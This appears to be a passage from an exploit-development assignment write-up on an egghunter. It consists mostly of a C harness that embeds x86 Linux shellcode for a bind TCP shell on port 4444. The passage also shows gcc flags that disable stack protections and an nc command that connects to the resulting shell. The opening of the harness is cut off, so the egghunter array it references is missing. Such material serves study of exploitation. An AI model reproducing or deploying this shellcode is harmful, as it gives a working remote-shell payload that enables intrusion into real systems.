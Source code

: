 ```c
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xf6\x56\x53\x6a\x02\x89\xe1\xcd\x80\x97\x31\xc0\xb0\x66\x56\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x56\x57\x89\xe1\xcd\x80\xb0\x66\xfe\xc3\x56\x56\x57\x89\xe1\xcd\x80\x93\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Egghunter  Length:  %d\n", strlen(egghunter));
	printf("Shellcode Length:  %d\n", strlen(code));


	int (*ret)() = (int(*)())code;

	ret();

}
```

**Now, the egghunter should spawn the bind tcp shell shellcode which i have created for the first assignment, as we will encounter soon.**

Creating the executable
```bash
gcc shellcode.c -fno-stack-protector -z execstack -o bindegghunter
```

Running the shellcode:
```bash
./bindegghunter
```
Connecting to the infected host

```c
nc -nv 127.0.0.1 4444
```
